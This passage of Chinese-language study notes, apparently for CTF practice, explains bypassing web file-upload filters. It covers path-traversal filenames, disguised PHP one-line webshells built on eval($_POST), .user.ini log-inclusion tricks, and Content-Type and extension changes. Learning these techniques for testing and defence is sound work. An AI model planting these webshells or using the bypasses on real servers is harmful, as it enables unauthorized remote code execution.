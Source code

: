 -  可以看到只对最后一个.进行了限制，因此可以`../flag.php/.`，或者`../1.php/2.php/..`，前面的..主要是为了把上传的文件放在Uploaded目录下，不加..会放在uploaded/backup目录下。 

### 伪装一句话木马

#### 用{}代替[]

```php
<?php eval($_POST{1});?>
```

#### array_pop

- $_POST是一个数组，在本地测试下面代码。array_pop会弹出数组的最后一个值

```php
<?php
var_dump(array_pop($_POST))
?>
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1667114797008-a822bd76-4664-43bc-88e1-cf630bc42b3f.png#averageHue=%23fbfbfb&clientId=u01a61b20-a623-4&from=paste&height=668&id=u30739dda&originHeight=1336&originWidth=1375&originalType=binary&ratio=1&rotation=0&showTitle=false&size=94107&status=done&style=none&taskId=u00b28ce3-9519-43fd-a6d6-e3fe8bcf8a5&title=&width=687.5)

- 可以看到会输出我输入的post内容，因此可用该方式构造一句话木马。

### 绕过对<?php?>的限制

- .user.ini + 日志包含
- auto_append_file=/var/log/nginx/access.log
- 在user-agent中写一句话木马


## 常用方法

### 判断检测位置

#### 改前端允许上传类型

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1667051789911-27095240-3989-46c3-bc5e-a15c8038f8e6.png#averageHue=%23fbfaf9&clientId=u34549cc1-4da6-4&from=paste&height=163&id=ub30f55fd&originHeight=326&originWidth=1672&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71491&status=done&style=none&taskId=u9170560e-9e92-423d-9571-af943e5cf2d&title=&width=836)

- 这里把accept的参数由images改为file

#### 判断报错原因

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1667051979704-d147007c-3349-462b-a87b-137f29236fe5.png#averageHue=%23e8aa7b&clientId=uc3b466fa-fc50-4&from=paste&height=256&id=u9c8267a4&originHeight=511&originWidth=1378&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71549&status=done&style=none&taskId=ud7faf40b-3ae0-4fb2-9721-c2dfa15a6bf&title=&width=689)

- 把错误输出放到Console中，这里提示我们要改Content-type
- 这里也不一定，也可能是文件内容有问题，可以依次删除部分文件内容进行测试

#### 改filename的后缀

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1667050589002-83ed8ac1-b14e-4897-bfcc-cb6cba4d6ec4.png#averageHue=%23f0efef&clientId=u560ee73b-5943-4&from=paste&height=122&id=UclTR&originHeight=243&originWidth=685&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11990&status=done&style=none&taskId=u7b351a54-fb85-4b02-b234-42c54e53531&title=&width=342.5)

#### 改content-type
